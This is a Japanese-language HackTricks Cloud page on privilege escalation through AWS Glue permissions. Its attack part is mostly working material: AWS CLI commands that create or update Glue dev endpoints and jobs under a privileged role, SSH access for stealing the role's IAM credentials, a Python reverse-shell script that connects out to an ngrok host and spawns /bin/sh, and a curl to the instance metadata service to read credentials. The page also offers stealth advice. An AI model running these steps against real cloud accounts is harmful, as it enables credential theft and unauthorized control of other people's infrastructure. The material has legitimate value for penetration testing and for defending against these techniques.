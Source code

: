 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

これらの権限を持つユーザーは、**新しいAWS Glue開発エンドポイントを設定し**、**特定の権限を持つ既存のサービスロールをGlueによって引き受け可能な形でこのエンドポイントに割り当てることができます**。

セットアップ後、**攻撃者はエンドポイントのインスタンスにSSHで接続し**、割り当てられたロールのIAM資格情報を盗むことができます:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
ステルス目的のために、Glue仮想マシン内のIAM資格情報を使用することをお勧めします。

**潜在的な影響:** 指定されたGlueサービスロールへの権限昇格。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

この権限を持つユーザーは、**既存のGlue開発**エンドポイントのSSHキーを**変更でき、SSHアクセスを有効にします**。これにより、攻撃者はエンドポイントに付随するロールの権限でコマンドを実行できます。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**潜在的影響:** 使用されるグルーサービスロールへの権限昇格。

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** と **`glue:CreateJob` または `glue:UpdateJob`** のいずれか、さらに **`glue:StartJobRun` または `glue:CreateTrigger`** のいずれかを組み合わせたユーザーは、**AWS Glue ジョブを作成または更新**し、任意の **Glue サービスアカウント**を添付し、ジョブの実行を開始できます。ジョブの機能には任意の Python コードを実行することが含まれ、これを利用してリバースシェルを確立することができます。このリバースシェルは、そのジョブに添付されたロールの **IAM 認証情報**を抽出するために利用され、結果としてそのロールの権限に基づく不正アクセスや行動を引き起こす可能性があります。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的影響:** 指定されたglueサービスロールへの権限昇格。

### `glue:UpdateJob`

更新権限だけで、攻撃者は既にアタッチされたロールのIAM資格情報を盗むことができる。

**潜在的影響:** アタッチされたglueサービスロールへの権限昇格。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
